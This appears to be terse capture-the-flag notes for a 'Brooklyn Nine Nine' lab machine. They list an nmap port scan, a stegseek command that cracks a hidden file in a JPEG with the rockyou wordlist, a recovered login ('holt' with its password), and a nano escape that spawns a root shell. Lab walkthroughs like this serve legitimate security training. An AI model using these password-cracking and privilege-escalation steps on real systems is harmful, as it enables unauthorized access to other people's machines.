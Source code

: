 2022-06-26 
# gryNet

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-26 22:00 CEST
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http



<!-- Have you ever heard of steganography? -->

stegseek --crack -sf brooklyn99.jpg -wl /usr/share/wordlists/rockyou.txt

holt:fluffydog12@ninenine

nano vulnerable:
```
nano -s /bin/sh
/bin/sh
^T
```